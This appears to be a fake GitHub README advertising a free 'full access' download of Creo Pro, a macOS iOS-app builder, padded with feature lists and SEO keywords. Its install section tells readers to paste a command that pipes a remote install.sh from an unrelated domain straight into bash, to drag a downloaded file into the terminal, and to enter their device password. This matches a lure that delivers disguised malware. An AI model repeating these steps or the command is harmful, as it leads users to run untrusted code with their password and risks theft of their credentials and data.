 <p align="center">
  <img src="https://i.ibb.co/bMB4VmTN/51515.webp" alt="Creo Pro macOS Banner" />
</p>

<h1 align="center">Creo Pro for macOS</h1>

<p align="center">
  📱 Visually design, prototype, and build native iOS apps in a single environment — with zero dependencies.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/147" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CREO%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Creo Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/jZb9D2Gp/2154.jpg" alt="Creo Pro Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Creo Pro?

**Creo Pro** is an all-in-one app development tool for macOS that allows designers and developers to visually build native iOS apps — combining design, logic, and code into a single environment.

You can create complete, working app prototypes without leaving the UI. Define screens, transitions, logic, and animations directly inside the macOS app — then preview and run your app live on your iPhone or in the simulator.

Creo Pro is ideal for product designers, indie developers, and educators looking to bridge the gap between UI/UX and functional mobile apps.

---

## ✅ Why Choose Creo Pro?

- 🧩 **Build Native iOS Apps Visually**  
- 🧠 **No External SDKs or Tools Needed**  
- 🎯 **Real-Time Code Behind UI**  
- 🔄 **Live Preview on Device or Simulator**  
- 💡 **Logic, Navigation & Animations Built-In**  
- 🖥️ **Apple Silicon & Intel Native**  
- ✏️ **Drag & Drop Interface Editor**  
- 🚫 **No Cloud or Subscription Required**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/xqmZV0xF/15166.jpg" alt="Creo Visual Interface Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/Z1mn0w1B/1231515.jpg" alt="Creo Live Preview Feature Screenshot" />
</p>

---

## 🚀 Key Features

- Visual app builder with code integration  
- Native iOS app creation on Mac  
- Preview live on iPhone or Simulator  
- Logic flow editor and component system  
- Built-in animation and UI transitions  
- Offline, local development  
- Perfect for rapid prototyping  
- Export to native iOS project  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Creo Pro under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/AppType-Visual+iOS+Builder-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Drag+Drop+Editor-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Creo Pro – Design Meets Code

Thanks for using **Creo Pro for macOS**.  
Build interactive iOS apps from idea to prototype — all from your Mac.

---

## 🧭 Usage Context

This macOS tool is intended for offline mobile UI prototyping, app design, and logic testing.  
No cloud sync or external runtime is involved.

All data is processed locally.  
Avoid using in corporate-managed or deployment-critical environments.

This software is not affiliated with Apple or any third-party services.

---

## 🔍 Tags

```text
creo pro for mac download, creo pro app builder macos, ios app prototyping tool for mac, download creo pro full mac version, creo pro apple silicon m1 builder, visual ios app creator mac creo, drag and drop ios ui builder mac, creo pro app development without xcode, creo pro simulator preview macos, creo pro mac build native app visual, creo mac offline app designer, creo pro export to ios project mac, creo pro for ventura and sonoma mac, creo pro mac no-code ios app creator, creo visual logic editor for mac
